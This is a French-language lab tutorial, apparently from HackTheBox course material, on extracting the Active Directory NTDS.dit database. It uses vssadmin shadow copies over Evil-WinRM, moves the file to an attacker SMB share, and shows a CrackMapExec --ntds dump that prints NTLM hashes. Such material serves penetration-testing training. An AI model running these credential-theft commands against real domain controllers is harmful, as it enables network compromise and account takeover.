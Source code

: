 
## Création d'une copie C :
Nous pouvons utiliser vssadmin pour créer un volume Shadow Copy (VSS) du lecteur C: ou de tout volume choisi par l'administrateur lors de l'installation initiale d'AD. Il est très probable que NTDS soit stocké sur C: car c'est l'emplacement par défaut sélectionné lors de l'installation, mais il est possible de modifier l'emplacement. Nous utilisons VSS pour cela car il est conçu pour faire des copies de volumes qui peuvent être lus et écrits activement sans avoir besoin d'arrêter une application ou un système particulier. VSS est utilisé par de nombreux logiciels de sauvegarde et de reprise après sinistre pour effectuer des opérations.
```
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

## Copie de NTDS.dit à partir du VSS
Nous pouvons ensuite copier le fichier NTDS.dit du cliché instantané de volume de C: vers un autre emplacement sur le lecteur pour préparer le déplacement de NTDS.dit vers notre hôte d'attaque.
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```
Avant de copier NTDS.dit sur notre hôte d'attaque, nous pouvons utiliser la technique que nous avons apprise précédemment pour créer un partage SMB sur notre hôte d'attaque. N'hésitez pas à revenir à la section Attaquer le SAM pour revoir cette méthode si nécessaire.

## Transfert de NTDS.dit vers l'hôte d'attaque
Désormais, cmd.exe /c move peut être utilisé pour déplacer le fichier du DC cible vers le partage sur notre hôte d'attaque.
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.	
```
## Une méthode plus rapide : utiliser cme pour capturer NTDS.dit
Alternativement, nous pouvons bénéficier de l'utilisation de CrackMapExec pour accomplir les mêmes étapes indiquées ci-dessus, le tout avec une seule commande. Cette commande nous permet d'utiliser VSS pour capturer et vider rapidement le contenu du fichier NTDS.dit de manière pratique dans notre session de terminal.
```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

SMB         10.129.201.57    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         10.129.201.57    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
```
